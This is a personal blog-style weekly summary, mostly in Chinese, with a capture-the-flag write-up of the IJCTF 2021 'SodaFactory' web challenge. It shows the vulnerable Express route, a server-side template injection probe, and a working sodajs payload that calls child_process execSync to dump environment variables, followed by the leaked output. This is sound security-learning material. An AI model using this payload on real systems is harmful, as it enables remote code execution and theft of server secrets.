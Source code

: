 ```yaml
---
butterId: var // blog image bucket id [Don't remove]
---
```


# Week7 Summary

## What have I done

- 7th XCTF & CyBRICS CTF 2021 整理复现中
- IJCTF 2021 整理复现中

## [WriteUp] How did I accomplish these things

### Web

#### [IJCTF 2021] SodaFactory

> Welcome to my SodaFactory.
>
> Note: You don't need any bruteforce
>
> Author: TheGrandPew#0740

使用的库是 sodajs，从以下代码看出参数 name 未经处理就传入了，在渲染后输出。

```javascript
app.post('/makeSoda', (req, res) => {
  var {name, brand} = req.body;
  img = images[brand];
  res.send(soda(`
    <title>${name}</title>
    <img src='${img}' alt='${name}'>
  `,{}))
})
```

因此对参数 name 尝试 SSTI，构造 `{{1 + 1}}` 可以发现输出的是 2，因此判定存在模板注入。使用如下载荷一把梭读出环境变量找到 flag。

> https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

```javascript
{{ " ".toString.constructor("return global.process.mainModule.constructor._load('child_process').execSync('env').toString()")() }}
```

读出如下环境变量。

```plain text
NODE_VERSION=12.18.1
HOSTNAME=53d556edba99
YARN_VERSION=1.22.4
PORT=3000
HOME=/root
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PWD=/app
FLAG=IJCTF{Y00_maK3_g00D_50DA_MA73}
```
